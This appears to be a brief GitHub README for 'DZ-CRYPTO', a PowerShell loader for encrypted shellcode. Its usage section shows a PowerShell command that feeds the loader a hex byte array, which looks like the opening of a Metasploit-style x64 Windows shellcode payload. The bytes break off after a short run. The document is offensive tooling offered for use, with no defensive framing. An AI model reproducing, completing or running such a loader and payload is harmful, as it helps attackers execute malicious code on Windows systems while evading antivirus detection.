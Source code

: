 # DZ-CRYPTO
DZ-CRYPTO SHELL CODE LOADER ENCRYPTED SHELL CODE 


# USAGE

```powershell
powershell -File .\DZ-CRYPTO.ps1 -payload 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,0x51,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x56,0x48,0x8b,0x72,0x50
```
